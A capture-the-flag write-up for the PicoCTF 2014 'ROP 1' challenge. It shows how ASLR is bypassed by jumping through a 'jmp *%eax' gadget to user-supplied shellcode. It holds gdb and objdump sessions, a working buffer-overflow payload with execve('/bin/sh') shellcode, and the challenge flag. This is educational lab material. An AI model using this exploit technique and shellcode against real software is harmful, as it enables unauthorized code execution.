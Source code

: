 # Pico CTF 2014 : ROP 1

**Category:** Binary Exploitation
**Points:** 100
**Description:**

>This binary is running on a machine with ASLR! Can you bypass it? The binary can be found at /home/rop1/ on the shell server. The source can be found [here](rop1.c).

**Hint:**
>ASLR is hard to beat if you need to predict an address, but what if you don't? What does %eax contain when vuln returns? Is there any code in the program which calls or jumps to it?

## Write-up

The hint asks a very important question, so let's find out in gdb!
```
/home/rop1$ gdb -q ./rop1
Reading symbols from ./rop1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048e87 <+0>: push   %ebp
   0x08048e88 <+1>: mov    %esp,%ebp
   0x08048e8a <+3>: and    $0xfffffff0,%esp
   0x08048e8d <+6>: sub    $0x10,%esp
   0x08048e90 <+9>: call   0x8048e44 <be_nice_to_people>
   0x08048e95 <+14>:    cmpl   $0x1,0x8(%ebp)
   0x08048e99 <+18>:    jle    0x8048eab <main+36>
   0x08048e9b <+20>:    mov    0xc(%ebp),%eax
   0x08048e9e <+23>:    add    $0x4,%eax
   0x08048ea1 <+26>:    mov    (%eax),%eax
   0x08048ea3 <+28>:    mov    %eax,(%esp)
   0x08048ea6 <+31>:    call   0x8048e6d <vuln>
   0x08048eab <+36>:    mov    $0x0,%eax
   0x08048eb0 <+41>:    leave
   0x08048eb1 <+42>:    ret
End of assembler dump.
(gdb) b*main+36
Breakpoint 1 at 0x8048eab
(gdb) set arg ASDF
(gdb) r
Starting program: /home/rop1/rop1 ASDF

Breakpoint 1, 0x08048eab in main ()
(gdb) info register eax
eax            0xffffd690   -10608
(gdb) x /s 0xffffd690
0xffffd690: "ASDF"
(gdb) quit
```

If you're confused by this part, here's the breakdown. We set the program to
take "ASDF" as input. We then printed out what was at the address stored in 
`%eax` right after `vuln()` returns control to `main()`. Surely enough, it
points to our buffer! This will hold true for every run of the program despite
ASLR. The second part of the hint suggests that there is code that will jump to
`%eax`, meaning we can supply shellcode and call it!
```
/home/rop1$ objdump -d rop1 | grep jmp | grep eax
...
809ef72:   ff e0                  jmp    \*%eax
80ab052:   ff e0                   jmp    \*%eax
80b5399:   ff e0                   jmp    \*%eax
80ba07b:   ff e0                   jmp    \*%eax
80ba180:   ff e0                   jmp    \*%eax
80ba960:   ff e0                   jmp    \*%eax
80bae38:   ff e0                   jmp    \*%eax
80bbf99:   ff e0                   jmp    \*%eax
```
As you can see, there are several addresses that contain what we need! I'll
just take the bottom one and use it.

```
./rop1 $(python -c 'print "A"\*76 + "BBBB"')
```
We control `%eip` after 76 bytes, we just have to replace the "B"s with
0x80bbf99 and put shellcode in the first part of our buffer.
```
./rop1 $(python -c 'print
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
+ "A"\*(72-21) + "\x99\xbf\x0b\x08"')
$ ls
Makefile  flag.txt  rop1  rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/rop_1.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-rop1/>
* <https://github.com/PizzaEaters/picoCTF-2014/tree/master/rop1>
